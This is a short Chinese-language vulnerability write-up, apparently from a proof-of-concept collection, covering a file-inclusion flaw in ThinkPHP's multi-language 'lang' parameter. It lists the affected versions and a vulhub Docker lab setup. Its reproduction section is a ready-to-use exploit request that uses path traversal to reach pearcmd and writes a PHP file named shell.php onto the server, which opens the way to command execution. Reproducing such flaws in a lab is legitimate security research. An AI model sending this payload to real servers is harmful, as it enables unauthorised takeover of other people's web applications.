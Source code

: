 # ThinkPHP LoadLangPack lang 任意文件包含漏洞

## 漏洞描述

当Thinkphp 程序开启了多语言功能时，可以通过 get、header、cookie 等位置传入参数，使用 pearcmd 文件包含达到命令执行，获取服务器权限

## 漏洞影响

<a-checkbox checked>Thinkphp，v6.0.1~v6.0.13，v5.0.x，v5.1.x</a-checkbox></br>

## 环境搭建

<a-checkbox checked>docker pull vulhub/thinkphp:6.0.12</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1671154096412-bb0dedfd-eb08-4b0c-af16-60a54db8a17d.png)

验证POC

```php
/public/index.php?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1671154607827-3548f528-c745-4ed1-994a-8aee9850ddee.png)![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1671154706972-596ab1d0-26ce-428b-a54b-b94ddaf4e8ef.png)